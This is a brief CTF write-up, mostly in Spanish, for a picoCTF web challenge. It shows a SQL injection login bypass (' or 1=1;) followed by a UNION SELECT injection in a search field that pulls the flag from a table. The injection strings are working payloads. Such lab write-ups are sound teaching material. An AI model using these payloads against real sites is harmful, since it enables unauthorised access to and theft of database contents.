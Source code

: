 ## Objetivo 
Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:52121/)

## Solución  


```java 
username: a
password:' or 1=1;
```

nos da un buscador, en el cual vamos a meter Algiers' union select flag,id,1 from more_table;--

![[Pasted image 20241026224845.png]]
al buscarlo nos da la bandera

## Notas Adicionales 

### Referencias
